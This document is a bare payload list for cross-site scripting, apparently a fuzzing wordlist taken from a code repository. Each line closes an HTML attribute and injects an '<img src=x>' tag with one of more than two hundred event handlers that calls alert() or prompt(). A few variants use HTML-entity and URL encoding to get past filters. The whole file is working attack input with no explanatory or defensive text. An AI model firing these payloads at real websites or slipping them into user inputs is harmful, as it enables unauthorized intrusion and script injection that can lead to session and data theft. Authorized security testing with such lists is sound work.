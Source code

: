 # -img-src-x-onerror-alert-rep-a-
"><img src=x onerror=alert(/rep-a/)>
">&lt;img src=x onerror=alert(/rep-a/)>
">%26lt;img src=x onerror=alert(/rep-a/)>
">&#x3c;img src=x onerror=alert(/rep-a/)>
"><img src=x onafterprint=prompt('onafterprint')>
"><img src=x onafterscriptexecute=prompt('onafterscriptexecute')>
"><img src=x onafterupdate=prompt('onafterupdate')>
"><img src=x onanimationend=prompt('onanimationend')>
"><img src=x onanimationiteration=prompt('onanimationiteration')>
"><img src=x onanimationstart=prompt('onanimationstart')>
"><img src=x onariarequest=prompt('onariarequest')>
"><img src=x onautocomplete=prompt('onautocomplete')>
"><img src=x onautocompleteerror=prompt('onautocompleteerror')>
"><img src=x onbeforeactivate=prompt('onbeforeactivate')>
"><img src=x onbeforecopy=prompt('onbeforecopy')>
"><img src=x onbeforecut=prompt('onbeforecut')>
"><img src=x onbeforedeactivate=prompt('onbeforedeactivate')>
"><img src=x onbeforeeditfocus=prompt('onbeforeeditfocus')>
"><img src=x onbeforepaste=prompt('onbeforepaste')>
"><img src=x onbeforeprint=prompt('onbeforeprint')>
"><img src=x onbeforescriptexecute=prompt('onbeforescriptexecute')>
"><img src=x onbeforeunload=prompt('onbeforeunload')>
"><img src=x onbeforeupdate=prompt('onbeforeupdate')>
"><img src=x onbegin=prompt('onbegin')>
"><img src=x onblur=prompt('onblur')>
"><img src=x onbounce=prompt('onbounce')>
"><img src=x oncancel=prompt('oncancel')>
"><img src=x oncanplay=prompt('oncanplay')>
"><img src=x oncanplaythrough=prompt('oncanplaythrough')>
"><img src=x oncellchange=prompt('oncellchange')>
"><img src=x onchange=prompt('onchange')>
"><img src=x onclick=prompt('onclick')>
"><img src=x onclose=prompt('onclose')>
"><img src=x oncommand=prompt('oncommand')>
"><img src=x oncompassneedscalibration=prompt('oncompassneedscalibration')>
"><img src=x oncontextmenu=prompt('oncontextmenu')>
"><img src=x oncontrolselect=prompt('oncontrolselect')>
"><img src=x oncopy=prompt('oncopy')>
"><img src=x oncuechange=prompt('oncuechange')>
"><img src=x oncut=prompt('oncut')>
"><img src=x ondataavailable=prompt('ondataavailable')>
"><img src=x ondatasetchanged=prompt('ondatasetchanged')>
"><img src=x ondatasetcomplete=prompt('ondatasetcomplete')>
"><img src=x ondblclick=prompt('ondblclick')>
"><img src=x ondeactivate=prompt('ondeactivate')>
"><img src=x ondevicelight=prompt('ondevicelight')>
"><img src=x ondevicemotion=prompt('ondevicemotion')>
"><img src=x ondeviceorientation=prompt('ondeviceorientation')>
"><img src=x ondeviceproximity=prompt('ondeviceproximity')>
"><img src=x ondrag=prompt('ondrag')>
"><img src=x ondragdrop=prompt('ondragdrop')>
"><img src=x ondragend=prompt('ondragend')>
"><img src=x ondragenter=prompt('ondragenter')>
"><img src=x ondragleave=prompt('ondragleave')>
"><img src=x ondragover=prompt('ondragover')>
"><img src=x ondragstart=prompt('ondragstart')>
"><img src=x ondrop=prompt('ondrop')>
"><img src=x ondurationchange=prompt('ondurationchange')>
"><img src=x onemptied=prompt('onemptied')>
"><img src=x onend=prompt('onend')>
"><img src=x onended=prompt('onended')>
"><img src=x onerror=prompt('onerror')>
"><img src=x onerrorupdate=prompt('onerrorupdate')>
"><img src=x onexit=prompt('onexit')>
"><img src=x onfilterchange=prompt('onfilterchange')>
"><img src=x onfinish=prompt('onfinish')>
"><img src=x onfocus=prompt('onfocus')>
"><img src=x onfocusin=prompt('onfocusin')>
"><img src=x onfocusout=prompt('onfocusout')>
"><img src=x onformaction=prompt('onformaction')>
"><img src=x onformchange=prompt('onformchange')>
"><img src=x onforminput=prompt('onforminput')>
"><img src=x onfullscreenchange=prompt('onfullscreenchange')>
"><img src=x onfullscreenerror=prompt('onfullscreenerror')>
"><img src=x ongotpointercapture=prompt('ongotpointercapture')>
"><img src=x onhaschange=prompt('onhaschange')>
"><img src=x onhashchange=prompt('onhashchange')>
"><img src=x onhelp=prompt('onhelp')>
"><img src=x oninput=prompt('oninput')>
"><img src=x oninvalid=prompt('oninvalid')>
"><img src=x onkeydown=prompt('onkeydown')>
"><img src=x onkeypress=prompt('onkeypress')>
"><img src=x onkeyup=prompt('onkeyup')>
"><img src=x onlanguagechange=prompt('onlanguagechange')>
"><img src=x onlayoutcomplete=prompt('onlayoutcomplete')>
"><img src=x onload=prompt('onload')>
"><img src=x onloadeddata=prompt('onloadeddata')>
"><img src=x onloadedmetadata=prompt('onloadedmetadata')>
"><img src=x onloadstart=prompt('onloadstart')>
"><img src=x onlosecapture=prompt('onlosecapture')>
"><img src=x onlostpointercapture=prompt('onlostpointercapture')>
"><img src=x onmediacomplete=prompt('onmediacomplete')>
"><img src=x onmediaerror=prompt('onmediaerror')>
"><img src=x onmessage=prompt('onmessage')>
"><img src=x onmousedown=prompt('onmousedown')>
"><img src=x onmouseenter=prompt('onmouseenter')>
"><img src=x onmouseleave=prompt('onmouseleave')>
"><img src=x onmousemove=prompt('onmousemove')>
"><img src=x onmouseout=prompt('onmouseout')>
"><img src=x onmouseover=prompt('onmouseover')>
"><img src=x onmouseup=prompt('onmouseup')>
"><img src=x onmousewheel=prompt('onmousewheel')>
"><img src=x onmove=prompt('onmove')>
"><img src=x onmoveend=prompt('onmoveend')>
"><img src=x onmovestart=prompt('onmovestart')>
"><img src=x onmozfullscreenchange=prompt('onmozfullscreenchange')>
"><img src=x onmozfullscreenerror=prompt('onmozfullscreenerror')>
"><img src=x onmozpointerlockchange=prompt('onmozpointerlockchange')>
"><img src=x onmozpointerlockerror=prompt('onmozpointerlockerror')>
"><img src=x onmscontentzoom=prompt('onmscontentzoom')>
"><img src=x onmsfullscreenchange=prompt('onmsfullscreenchange')>
"><img src=x onmsfullscreenerror=prompt('onmsfullscreenerror')>
"><img src=x onmsgesturechange=prompt('onmsgesturechange')>
"><img src=x onmsgesturedoubletap=prompt('onmsgesturedoubletap')>
"><img src=x onmsgestureend=prompt('onmsgestureend')>
"><img src=x onmsgesturehold=prompt('onmsgesturehold')>
"><img src=x onmsgesturestart=prompt('onmsgesturestart')>
"><img src=x onmsgesturetap=prompt('onmsgesturetap')>
"><img src=x onmsgotpointercapture=prompt('onmsgotpointercapture')>
"><img src=x onmsinertiastart=prompt('onmsinertiastart')>
"><img src=x onmslostpointercapture=prompt('onmslostpointercapture')>
"><img src=x onmsmanipulationstatechanged=prompt('onmsmanipulationstatechanged')>
"><img src=x onmspointercancel=prompt('onmspointercancel')>
"><img src=x onmspointerdown=prompt('onmspointerdown')>
"><img src=x onmspointerenter=prompt('onmspointerenter')>
"><img src=x onmspointerleave=prompt('onmspointerleave')>
"><img src=x onmspointermove=prompt('onmspointermove')>
"><img src=x onmspointerout=prompt('onmspointerout')>
"><img src=x onmspointerover=prompt('onmspointerover')>
"><img src=x onmspointerup=prompt('onmspointerup')>
"><img src=x onmssitemodejumplistitemremoved=prompt('onmssitemodejumplistitemremoved')>
"><img src=x onmsthumbnailclick=prompt('onmsthumbnailclick')>
"><img src=x onoffline=prompt('onoffline')>
"><img src=x ononline=prompt('ononline')>
"><img src=x onoutofsync=prompt('onoutofsync')>
"><img src=x onpage=prompt('onpage')>
"><img src=x onpagehide=prompt('onpagehide')>
"><img src=x onpageshow=prompt('onpageshow')>
"><img src=x onpaste=prompt('onpaste')>
"><img src=x onpause=prompt('onpause')>
"><img src=x onplay=prompt('onplay')>
"><img src=x onplaying=prompt('onplaying')>
"><img src=x onpointercancel=prompt('onpointercancel')>
"><img src=x onpointerdown=prompt('onpointerdown')>
"><img src=x onpointerenter=prompt('onpointerenter')>
"><img src=x onpointerleave=prompt('onpointerleave')>
"><img src=x onpointerlockchange=prompt('onpointerlockchange')>
"><img src=x onpointerlockerror=prompt('onpointerlockerror')>
"><img src=x onpointermove=prompt('onpointermove')>
"><img src=x onpointerout=prompt('onpointerout')>
"><img src=x onpointerover=prompt('onpointerover')>
"><img src=x onpointerup=prompt('onpointerup')>
"><img src=x onpopstate=prompt('onpopstate')>
"><img src=x onprogress=prompt('onprogress')>
"><img src=x onpropertychange=prompt('onpropertychange')>
"><img src=x onratechange=prompt('onratechange')>
"><img src=x onreadystatechange=prompt('onreadystatechange')>
"><img src=x onreceived=prompt('onreceived')>
"><img src=x onrepeat=prompt('onrepeat')>
"><img src=x onreset=prompt('onreset')>
"><img src=x onresize=prompt('onresize')>
"><img src=x onresizeend=prompt('onresizeend')>
"><img src=x onresizestart=prompt('onresizestart')>
"><img src=x onresume=prompt('onresume')>
"><img src=x onreverse=prompt('onreverse')>
"><img src=x onrowdelete=prompt('onrowdelete')>
"><img src=x onrowenter=prompt('onrowenter')>
"><img src=x onrowexit=prompt('onrowexit')>
"><img src=x onrowinserted=prompt('onrowinserted')>
"><img src=x onrowsdelete=prompt('onrowsdelete')>
"><img src=x onrowsinserted=prompt('onrowsinserted')>
"><img src=x onscroll=prompt('onscroll')>
"><img src=x onsearch=prompt('onsearch')>
"><img src=x onseek=prompt('onseek')>
"><img src=x onseeked=prompt('onseeked')>
"><img src=x onseeking=prompt('onseeking')>
"><img src=x onselect=prompt('onselect')>
"><img src=x onselectionchange=prompt('onselectionchange')>
"><img src=x onselectstart=prompt('onselectstart')>
"><img src=x onshow=prompt('onshow')>
"><img src=x onstalled=prompt('onstalled')>
"><img src=x onstart=prompt('onstart')>
"><img src=x onstop=prompt('onstop')>
"><img src=x onstorage=prompt('onstorage')>
"><img src=x onstoragecommit=prompt('onstoragecommit')>
"><img src=x onsubmit=prompt('onsubmit')>
"><img src=x onsuspend=prompt('onsuspend')>
"><img src=x onsynchrestored=prompt('onsynchrestored')>
"><img src=x ontextinput=prompt('ontextinput')>
"><img src=x ontimeerror=prompt('ontimeerror')>
"><img src=x ontimeupdate=prompt('ontimeupdate')>
"><img src=x ontoggle=prompt('ontoggle')>
"><img src=x ontrackchange=prompt('ontrackchange')>
"><img src=x ontransitionend=prompt('ontransitionend')>
"><img src=x onunload=prompt('onunload')>
"><img src=x onurlflip=prompt('onurlflip')>
"><img src=x onuserproximity=prompt('onuserproximity')>
"><img src=x onvolumechange=prompt('onvolumechange')>
"><img src=x onwaiting=prompt('onwaiting')>
"><img src=x onwebkitanimationend=prompt('onwebkitanimationend')>
"><img src=x onwebkitanimationiteration=prompt('onwebkitanimationiteration')>
"><img src=x onwebkitanimationstart=prompt('onwebkitanimationstart')>
"><img src=x onwebkitfullscreenchange=prompt('onwebkitfullscreenchange')>
"><img src=x onwebkitfullscreenerror=prompt('onwebkitfullscreenerror')>
"><img src=x onwebkittransitionend=prompt('onwebkittransitionend')>
"><img src=x onwheel=prompt('onwheel')>
